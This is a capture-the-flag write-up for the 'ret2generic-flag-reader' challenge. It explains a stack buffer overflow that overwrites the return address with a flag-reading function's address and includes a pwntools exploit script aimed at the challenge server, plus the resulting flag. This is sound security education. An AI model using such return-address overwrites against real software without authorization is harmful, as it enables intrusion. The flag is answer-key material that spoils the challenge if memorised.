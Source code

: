 # ret2generic-flag-reader

<p align="center">
    <kbd><img src="images/ret2generic-1.png" caption="Challenge" /></kbd><br/>
</p>

From the source code, I understand that I need to overwrite the ret address to the address of super_generic_flag_reading_function_please_ret_to_me() function
<p align="center">
    <kbd><img src="images/ret2generic-2.png" caption="Challenge" /></kbd><br/>
</p>

Since the variable comments_and_concerns has a size of 32, I need to spray 40 random characters (32 bytes for the variable “comments_and_concerns” and 8 bytes for the stored rbp) and then the address of super_generic_flag_reading_function_please_ret_to_me() function

To start, find the address of super_generic_flag_reading_function_please_ret_to_me() function <br />
`$ p super_generic_flag_reading_function_please_ret_to_me` <br />
<p align="center">
    <kbd><img src="images/ret2generic-3.png" caption="Challenge" /></kbd><br/>
</p>

Create a script to perform the exploit
```
from pwn import *

payload = ("A"*40).encode()
eip = p64(0x4011f6)
payload = payload + eip
p = remote("mc.ax", 31077)
#p = process('./ret2generic-flag-reader')
p.recvuntil("this is genius")
p.sendline(payload)
p.interactive()
```

<p align="center">
    <kbd><img src="images/ret2generic-4.png" caption="Challenge" /></kbd><br/>
</p>

Flag: `flag{rob-loved-the-challenge-but-im-still-paid-minimum-wage}`